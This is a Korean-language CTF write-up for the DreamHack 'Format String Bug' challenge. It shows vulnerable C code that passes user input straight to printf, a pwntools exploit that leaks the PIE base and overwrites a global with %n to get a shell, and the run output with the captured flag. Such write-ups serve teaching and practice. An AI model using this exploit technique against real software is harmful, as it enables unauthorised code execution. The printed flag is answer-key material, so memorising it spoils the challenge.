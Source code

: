# [DreamHack] Format String Bug

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: Format String Bug에서 실습하는 문제입니다.
>
> Release: [Format String Bug.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8533881/Format.String.Bug.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/162664326-0a875a50-e3ee-492a-9e1f-cc3353a5da1c.png)

## Analysis

```c
int changeme;

int main() {
  char buf[0x20];
  
  setbuf(stdout, NULL);
  
  while (1) {
    get_string(buf, 0x20);
    printf(buf); // FSB
    puts("");
    if (changeme == 1337) {
      system("/bin/sh");
    }
  }
}
```

FSB를 이용해서 `changeme`에 1337을 넣으면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/fsb_overwrite')
else:
    r = remote('host1.dreamhack.games', 16977)

__libc_csu_init_offset = 0x940  # offset of __libc_csu_init() from PIE base
changeme_offset = 0x20101c  # offset of changeme from PIE base


# leak PIE

if REMOTE:
    r.send('%8$p')
else:
    r.send('%7$p')

__libc_csu_init = int(r.recvline()[2:-1], 16)  # __libc_csu_init()
pie = __libc_csu_init - __libc_csu_init_offset  # PIE base
changeme = pie + changeme_offset  # global var <changeme>


# overwrite changeme with 1337

payload = b'%1337c%8$n'.ljust(0x10, b'a')
payload += p64(changeme)

r.send(payload)


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 16977: Done
solve.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send('%8$p')
[*] Switching to interactive mode















 \xf0aaaaaa\x1
$ cat flag
DH{b283dec57b17112a4e9aa6d5499c0f28}
```